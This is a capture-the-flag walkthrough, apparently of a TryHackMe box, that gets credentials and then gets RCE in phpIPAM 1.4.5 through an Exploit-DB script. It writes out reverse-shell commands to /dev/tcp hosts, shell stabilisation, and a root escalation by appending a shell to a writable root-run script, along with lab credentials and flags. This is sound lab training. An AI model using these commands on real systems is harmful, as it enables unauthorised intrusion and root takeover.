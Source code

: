 ```yaml
---
sticker: emoji//1f415
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |
| 1337 | waste   |



# RECONNAISSANCE
---

If we check the website, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250403160350.png)

We need some credentials in order to access this, we can check a hidden directory at `robots.txt`:

![](cybersecurity/images/Pasted%2520image%252020250403160417.png)

That just takes us to a Youtube video:


![](cybersecurity/images/Pasted%2520image%252020250403160441.png)


If we recall our nmap scan, we can see a strange service running at `1337`, something called `waste`, let's interact with it using netcat:

```
nc IP 1337
```


If we follow the string of the conversation, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250403160543.png)

Right answer is bulldog, we can get this by either trying many times or just checking the theme of the room:

![](cybersecurity/images/Pasted%2520image%252020250403160710.png)

If we answer correctly, we get the following:

![](cybersecurity/images/Pasted%2520image%252020250403160724.png)

We got credentials:

```
admin:OllieUnixMontgomery!
```

Since we got the credentials, we can finally go inside the dashboard:

![](cybersecurity/images/Pasted%2520image%252020250403160828.png)


# EXPLOITATION
---

We are dealing with something called `phpIPAM 1.4.5`m we can search for an exploit:


![](cybersecurity/images/Pasted%2520image%252020250403160856.png)

Let's try it out.

Link: https://www.exploit-db.com/exploits/50963

```
python3 exploit.py -url http://10.10.161.122/ -usr admin -pwd 'OllieUnixMontgomery!' -cmd 'id' --path /var/www/html
```


If we use the exploit correctly, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250403161633.png)

There we go, we got `rce`, let's send ourselves a shell, let's go to `evil.php` and use the following command:

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FYOUR_IP%2F4444%200%3E%261%22
```

We need to have our listener ready and once we send the command, we'll notice this:


![](cybersecurity/images/Pasted%2520image%252020250403162334.png)

Let's proceed privilege escalation.



# PRIVILEGE ESCALATION
---


First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](cybersecurity/images/Pasted%2520image%252020250403162450.png)

We can reuse the same credentials for user `ollie` inside of the shell, let's do it:

```
ollie:OllieUnixMontgomery!
```

![](cybersecurity/images/Pasted%2520image%252020250403164153.png)

Now, we can read the `user.txt` flag:

```
ollie@hackerdog:/tmp$ cat /home/ollie/user.txt
THM{Ollie_boi_is_daH_Cut3st}
```

From here, I tried using linpeas but nothing useful was truly found on here, we can use `pspy` to check on active processes

![](cybersecurity/images/Pasted%2520image%252020250403164331.png)

Something weird is being run by root, let's check this feedme stuff:

```
ollie@hackerdog:/tmp$ find / -name feedme 2>/dev/null
/usr/bin/feedme
```

We got a binary called `feedme`, let' see it:

```
ollie@hackerdog:/tmp$ file /usr/bin/feedme
/usr/bin/feedme: Bourne-Again shell script, ASCII text executable
```

```
ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 30 Feb 12  2022 /usr/bin/feedme
```

We can write on the script, let's simply put a reverse shell on the file and wait for it to be executed again:

```
echo 'bash -c "bash -i >& /dev/tcp/10.6.34.159/9001 0>&1"' >> /usr/bin/feedme
```

Now, set up the listener and wait a bit to see the connection:

![](cybersecurity/images/Pasted%2520image%252020250403164633.png)

We got root finally, let's read `root.txt`:

```
root@hackerdog:/# cat /root/root.txt
THM{Ollie_Luvs_Chicken_Fries}
```

![](cybersecurity/images/Pasted%2520image%252020250403164709.png)



